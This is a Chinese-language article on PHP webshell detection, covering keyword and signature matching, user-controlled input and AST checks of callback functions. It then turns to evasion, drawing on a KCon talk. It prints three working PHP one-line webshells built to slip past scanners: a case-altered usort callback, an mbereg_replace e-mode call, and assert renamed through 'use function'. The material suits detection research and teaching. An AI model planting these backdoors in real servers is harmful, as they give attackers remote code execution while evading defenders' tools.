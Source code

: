 `Webshell` 的实现需要两步：数据的传递、执行所传递的数据。

![](https://p1.ssl.qhimg.com/t0115623bb3e84ef7b7.png)

对于执行数据部分，我们可以收集关键词，匹配脚本文件中的关键词找出可疑函数，当执行数据部分匹配到可疑函数时再进行判断其数据传递部分是否为用户可控，譬如 `$_POST、$_GET、$_REQUEST、$_FILES、$_COOKIE、$_SERVER` 等等。

![](https://p4.ssl.qhimg.com/t01fecad85427b32f39.png)

不过一些变形的 `webshell` 通过各种编码、加密、压缩PHP文件，或者通过一些动态方法调用来绕过关键字匹配，此时我们可以通过收集 `webshell` 中会用到的而一般文件不会用到的函数和代码、收集出现过的 `webshell` ，将其中的特征码提取出来，也就是收集特征码，特征值，危险函数来完善规则库，提高查杀率。

### Webshell 绕过

#### PHP动态特性的捕捉与逃逸

在p牛的[《PHP动态特性的捕捉与逃逸》](https://github.com/knownsec/KCon/blob/master/2019/25日/PHP动态特性的捕捉与逃逸.pdf) 中，将常见的PHP一句话木马分为如下几个类别：

![](https://p3.ssl.qhimg.com/dm/1024_269_/t017fad5ab6c46df2ad.png)

![](https://p5.ssl.qhimg.com/dm/1024_164_/t01170b4aed7b60b651.png)

其中回调型后门的检测：

1. 遍历AST Tree
2. 分析FuncCall Node，判断是否调用了含有”回调参数”的函数
3. 判断回调参数是否是一个变量

介绍了如何绕过回调参数黑名单

**大小写绕过**

```php
<?php
UsORt($_POST[1], $_POST[2]);
```

**函数别名**

`mbereg_replace` 、 `mbereg_ireplace` 在文档里搜索不到，实际上却是 `mb_ereg_replace` 、 `mb_eregi_replace` 的别名，而 `mb_ereg_replace` 、 `mb_eregi_replace` 的作用和 `preg_replace` 一样，支持传入e模式的正则表达式，进而执行任意代码；而且，PHP7后已经删除了 `preg_replace` 的e模式，而 `mb_ereg_replace` 的e模式仍然坚挺到现在。

```php
<?php
mbereg_replace('.*', '', $_REQUEST[2333], 'mer');
```

不过， `mbereg_replace` 这个别名在PHP7.3被移除了，所以上述代码只能在7.2及以下的PHP中使用。

**函数重命名**

```php
<?php
use function \assert as test;
test($_POST[2333]);
```
